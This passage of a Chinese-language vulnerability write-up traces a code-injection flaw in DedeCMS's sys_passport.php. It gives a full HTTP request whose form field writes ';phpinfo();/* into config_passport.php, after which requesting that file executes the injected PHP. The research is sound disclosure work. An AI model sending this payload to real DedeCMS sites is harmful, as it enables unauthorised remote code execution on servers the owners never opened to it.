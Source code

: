 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222213.png)

回头看配置文件

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222214.png)

数据库中并未写入

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222215.png)

比较有意思的基本上上所有的配置文件在做修改的时候都被转义了，导致无法RCE。既fwrite直接写入配置文件

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222216.png)

继续从配置文件向上查找，在路径

> dede/sys_passport.php

构造payload

    
    
    POST /uploads/dede/sys_passport.php HTTP/1.1  
    Host: dedecms.org:8016  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
    Accept-Encoding: gzip, deflate  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 172  
    Origin: http://dedecms.org:8016  
    Connection: close  
    Referer: http://dedecms.org:8016/uploads/dede/sys_passport.php?1678952050  
    Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=2m5nqo8dsir04s541ab9c3f9i4; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=27d26bbe70ce4635; DedeLoginTime=1678950737; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=4a8556e201285aac; _csrf_name_5f9f6663=e8240231360cdb3477e421ac5afe613b; _csrf_name_5f9f66631BH21ANI1AGD297L1FF21LN02BGE1DNG=a77e938eaf09a438; ENV_GOBACK_URL=%2Fuploads%2Fdede%2Flog_list.php  
    Upgrade-Insecure-Requests: 1  
      
    dopost=save&edit___cfg_pp_need=Y&edit___cfg_pp_encode=TgTSa7141E&edit___cfg_pp_login=s&edit___cfg_pp_exit=s\&edit___cfg_pp_reg=';phpinfo();/*&imageField.x=39&imageField.y=9

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222217.png)

查看配置文件`config_passport.php`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222218.png)

这里因为文件包含的文件为`config.php`,向上查找，配置文件路径为

> include/config_passport.php

请求

> http://dedecms.org:8016/uploads/include/config_passport.php
